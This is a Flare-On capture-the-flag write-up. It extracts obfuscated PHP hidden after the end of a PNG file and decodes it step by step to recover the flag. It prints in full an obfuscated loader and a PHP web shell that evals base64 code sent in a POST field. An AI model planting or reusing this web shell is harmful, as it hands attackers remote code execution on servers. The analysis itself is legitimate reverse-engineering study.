


# Challenge 2: Javascrap

The challenge file for challenge 2 is a html source code (`home.html`) with images (`/img/flare-on.png`). A quick run with python web server to check out the html file. 

```bash 
$ python3 -m http.server 
```



We notice a Flare-On version of the website

### Solution:
##### 1. View the html source code
Upon inspecting the source code, we able to notice a weird php function. 

```php
<?php include "img/flare-on.png" ?>
```

It tries to include and execute `img/flare-on.png` as if were a PHP file. Since `flare-on.png` is an image file, we have to analyze the hex bytes of it.


##### 2. Analyze hex bytes of flare-on.png



After the IEND section, it continues with a PHP code. Lets parse of the remaining with bytes and strings it out. Here is the go code to parse it out to a php source file:

```go
package main

import (
	"fmt"
	"os"
	"path/filepath"
)

func main() {
	if len(os.Args) != 2 {
		fmt.Println("Usage: program <png-file>")
		os.Exit(1)
	}

	filename := os.Args[1]
	data, err := os.ReadFile(filename)
	if err != nil {
		fmt.Printf("Error reading file: %v\n", err)
		os.Exit(1)
	}

	// Start at the specified offset (0x19C4)
	specifiedOffset := 0x19C4
	
	// Check if the file is large enough
	if specifiedOffset >= len(data) {
		fmt.Printf("Specified offset 0x%X is beyond the end of file\n", specifiedOffset)
		os.Exit(1)
	}

	// Get data at and after the specified offset
	phpData := data[specifiedOffset:]
	fmt.Printf("Extracted %d bytes of PHP code starting at offset 0x%X\n", len(phpData), specifiedOffset)

	// Create output filename based on input filename
	baseName := filepath.Base(filename)
	extension := filepath.Ext(baseName)
	outputName := baseName[:len(baseName)-len(extension)] + "_extracted.php"
	
	// Write the PHP code to the output file
	err = os.WriteFile(outputName, phpData, 0644)
	if err != nil {
		fmt.Printf("Error writing to output file: %v\n", err)
		os.Exit(1)
	}
	
	fmt.Printf("PHP code successfully extracted to %s\n", outputName)
	
	// Preview the first 200 bytes of the extracted PHP code
	previewLen := 200
	if len(phpData) < previewLen {
		previewLen = len(phpData)
	}
	
	fmt.Println("\nPreview of extracted PHP code:")
	fmt.Println("-------------------------------")
	fmt.Println(string(phpData[:previewLen]))
	fmt.Println("-------------------------------")
	fmt.Println("(Preview truncated. See the output file for the complete code)")
}
```

##### Analyze embedded php code from the image
Here is the embedded code, which is obfuscated: 
```php
<?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>
```

Here is the attempt to deobfuscate it:
```php
<?php 
$terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");

$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);

$do_me="";

for($i=0;$i<count($order);$i++){
    $do_me=$do_me.$terms[$order[$i]];
}

eval($do_me); ?>
```

Here are the information we can derived from the deobfuscated php code:
- `$terms` containing shuffled set of characters
- `$order` containing a list of indices, each pointing to an element in `$terms`
- `$do_me` will form a string after iteration through `$order` by extracting characters from `$terms`
- `eval($do_me)` will execute it

The caveat here is that eval is to execute strings as if it is a PHP code, since everything most of the contents is obfuscated, executing eval will show us anything. 

##### Modify the deobfuscated php script
To observe strings output, we change modify `eval` to `echo` and execute it. Here is the output:
```bash
$ php flare-on_extracted.php 

$_= \'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9\';$__=\'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7\';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
```

It decodes out the PHP code with `echo`. This time it reveals more obfuscatation. Doing the same thing by deobfuscating it to able view the encoded strings clearer.

```php
$_='aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';

$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';

$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";

eval($___($__));
```

From the first `$_` and second `$__` strings, it is a base64 encoded strings but the third `$___` strings is in hex . Decode it shows this:
```php 
$_ = if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) { eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }


$__ =$code=base64_decode($_);eval($code);


$___ = bs6d_eoe 
```

From the encoded string, it is a mix of octal and hex. Here is the script to decode it:

```go 
package main

import (
	"fmt"
	"regexp"
	"strconv"
	"strings"
)

func main() {
	// The input string with various escape notations
	input := `\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D`
	
	// Corrected parsing methods
	fmt.Println("Corrected Method 1 - Character by character parsing:")
	result1 := parseCharByCharCorrected(input)
	fmt.Println(result1)
	
	fmt.Println("\nCorrected Method 2 - Regex-based parsing:")
	result2 := parseWithRegexCorrected(input)
	fmt.Println(result2)
}

// Corrected Method 1: Character by character parsing with decimal support
func parseCharByCharCorrected(input string) string {
	var result strings.Builder
	i := 0

	for i < len(input) {
		if input[i] == '\\' {
			i++
			if i >= len(input) {
				break
			}

			// Handle hex escape \xNN
			if input[i] == 'x' || input[i] == 'X' {
				i++
				if i+1 < len(input) {
					hexStr := input[i : i+2]
					if val, err := strconv.ParseInt(hexStr, 16, 8); err == nil {
						result.WriteByte(byte(val))
						i += 2
						continue
					}
				}
			} else if input[i] >= '0' && input[i] <= '9' {
				// Handle decimal escape \DDD...
				end := i
				for end < len(input) && input[end] >= '0' && input[end] <= '9' {
					end++
				}
				decimalStr := input[i:end]
				if val, err := strconv.ParseInt(decimalStr, 10, 8); err == nil {
					result.WriteByte(byte(val))
					i = end
					continue
				}
			}
			// If not a valid escape, write the backslash and continue
			result.WriteByte('\\')
			result.WriteByte(input[i])
			i++
		} else {
			// Regular character
			result.WriteByte(input[i])
			i++
		}
	}

	return result.String()
}

// Corrected Method 2: Using regex to find decimal and hex escapes
func parseWithRegexCorrected(input string) string {
	// Regex to capture decimal (\d+) or hex (\xHH) escapes
	re := regexp.MustCompile(`\\(?:(\d+)|x([0-9A-Fa-f]{2}))`)

	return re.ReplaceAllStringFunc(input, func(match string) string {
		submatches := re.FindStringSubmatch(match)
		if submatches == nil {
			return match
		}
		if submatches[1] != "" { // Decimal escape
			decimalStr := submatches[1]
			if val, err := strconv.ParseInt(decimalStr, 10, 8); err == nil {
				return string(byte(val))
			}
		} else if submatches[2] != "" { // Hex escape
			hexStr := submatches[2]
			if val, err := strconv.ParseInt(hexStr, 16, 8); err == nil {
				return string(byte(val))
			}
		}
		return match
	})
}
```

Final output:
```sh
$ go run fixed-output-decoded.go 
Corrected Method 1 - Character by character parsing:
a11DOTthatDOTjava5crapATflareDASHonDOTcom

$ Corrected Method 2 - Regex-based parsing:
a11DOTthatDOTjava5crapATflareDASHonDOTcom
```

We got the flag but need to replace DOT with . and AT with @

**Flag:** `all.that.java5crap@flare-on.com`